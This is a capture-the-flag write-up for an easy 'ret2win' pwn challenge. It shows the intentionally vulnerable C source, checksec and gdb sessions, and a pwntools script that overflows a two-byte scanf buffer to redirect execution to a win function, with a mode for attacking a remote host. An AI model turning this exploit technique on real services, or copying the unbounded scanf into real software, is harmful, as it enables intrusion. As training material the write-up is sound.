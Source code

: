 ```yaml
---
layout: post
author: pr0rat
title: " pwn - ret2win"
date: 2023-05-25 16:24 +0300
image: /assets/img/Posts/ret2win.PNG
categories: [InterUniCTF, KCA, pwn, Easy]
tags: [pwn, overflow, binary, ghidra, pwntools, checksec]
---
```

> In this write i will explain how overflow a binary and overwrite the return value with an address of our choice. i this case we will point the execution our the win function that gives us the flag. MAYBE: to do this locally you can get the chall [here](/assets/img/Posts/ret2win/chall) with its source code [here](/assets/img/Posts/ret2win/chall.c). NO decompilation pressure

## lets get started
Well, we have the source, we can first take a look at it before we get to the binary

We have three functions `main`, `welcome_message` and `win`. All we need is have `win` function being executed. Unlucky for us, our lovely function is not called in the `main` function. not entirely unlucky though.

In buffer overflow, we are mostly used to seeing the `gets` as the function handling our input, in this case we have `scanf`. It took me a while before i could really understand how this code can be vulnerable. Then i saw that the `scanf` function is taking all our input to the `buff` variable which only stores `2 bytes` (one character only) letting the rest overwrite the values in the stack. sweeeet!!
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

// all the best !! :)
void win(){
	char flag[100];
	const int fd = open("./flag.txt", O_RDONLY);

	if (fd < 0){
		fprintf(stdout, "if this happens on the server, talk to admin, else create a flag.txt file :)");
		fflush(stdout);
	}

	read(fd, flag, sizeof(flag));
	fprintf(stdout, "%s \n", flag);
	fflush(stdout);
}

void welcome_message(){
	fprintf(stdout, "Welcome to the Madness Comrade !\n");
	fflush(stdout);
}

int main(int argc, char **argv){
	void (*f)() = welcome_message;
	char buff[2];
	printf("Do you have anything to say? (y\\n): ");
	fflush(stdout);
	scanf("%s", buff);
	f();
	return 0;
}
```
Checking on the file, we find it is of 64 bit architecture, it is dynamically linked and not stripped which would have helped us very much if we did not have its source file.
```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c88907f681c0259d1ead3c61498b872418d33529, for GNU/Linux 3.2.0, not stripped
```
Let us now check the security of the binary. There is no `canaries` and `No PIE` which means we can overflow without being caught and the address of the `win` function does not change. Thats all we needed, isn't.
```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ checksec --file chall
[*] '/home/kali/hacks/kca/pwn/ret2win/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

To test my logic, went on and fired up `gdb` in my machine. And guess what, setting a break pointer right before the function returns, and reading the values in the rip register, i found it filled with my `aaaaaa`.

```bash
(gdb) b *main+92
Breakpoint 1 at 0x4012c1
(gdb) r
Starting program: /home/kali/hacks/kca/pwn/ret2win/chall 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Do you have anything to say? (y\n): aaaaaaaa

Breakpoint 1, 0x00000000004012c1 in main ()
(gdb) x/1x $rip
0x4012c1 <main+92>:     0x000000b8
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x0000616161616161 in ?? ()
(gdb) x/1x $rip
0x616161616161: Cannot access memory at address 0x616161616161
(gdb) 
```
We know the offset is `2` from the size of the `buff` variable
```c
char buff[2];
```
```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ ./chall
Do you have anything to say? (y\n): aaaaaaaaaaaaaaa
zsh: segmentation fault  ./chall
                                                                                                                                                                       
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ ./chall 
Do you have anything to say? (y\n): aa
zsh: segmentation fault  ./chall
```
<!---
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  printf@plt
0x0000000000401040  read@plt
0x0000000000401050  fprintf@plt
0x0000000000401060  fflush@plt
0x0000000000401070  open@plt
0x0000000000401080  __isoc99_scanf@plt
0x0000000000401090  fwrite@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  win
0x000000000040122c  welcome_message
0x0000000000401265  main
0x00000000004012d0  __libc_csu_init
0x0000000000401330  __libc_csu_fini
0x0000000000401334  _fini
(gdb) 
--->
Now, what do we need to complete our payload? well, remember the goal is to overwrite the return address which the win function's address. So let us go on and look for the `win address` using `gdb`. There it is
```bash
(gdb) p *win
$1 = {<text variable, no debug info>} 0x401186 <win>
(gdb) 
```

### python script to automate the exploitation
With all that information, let us craft a python script that will do everything for us.
```python
#!/usr/bin/env python3
#author: pr0rat

from pwn import *

exe = './chall'
def start(argv=[], *a, **kw):
        if args.REMOTE:
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        elif args.LOCAL:
                return process([exe] + argv, *a, **kw)
        else:
                print("Usage: ./exploit.py REMOTE <server> <port>")
                print(" OR ./exploit.py LOCAL")
                exit()

p= start()

#because our binary is 64 bit, we user p64 function in pwntools which represents it in 
#little endian format as well as tell the program that it is of a 64 bit architecture
win_addr = p64(0x401186)

payload = b''
payload += b'nn'
payload += win_addr

p.recvuntil(b"): ")
p.sendline(payload)
print(p.recv())
```

Hooray!! with this script, you exploit the buffer overflow, overwrite the return address with the win function address which will give you the flag.

Running it locally 
> NB: It requires you to create a dummy flag.txt for testing.

```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ python3 exploit.py      
Usage: ./exploit.py REMOTE <server> <port>
 OR ./exploit.py LOCAL
                                                                                                                                                                       
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ python3 exploit.py LOCAL
[+] Starting local process './chall': pid 75457
[*] Process './chall' stopped with exit code 0 (pid 75457)
b'flag{just_me_doing_my_tings}\n \n'
```
and in the remote server its just putting the IP and the port as shown from the usage message.

 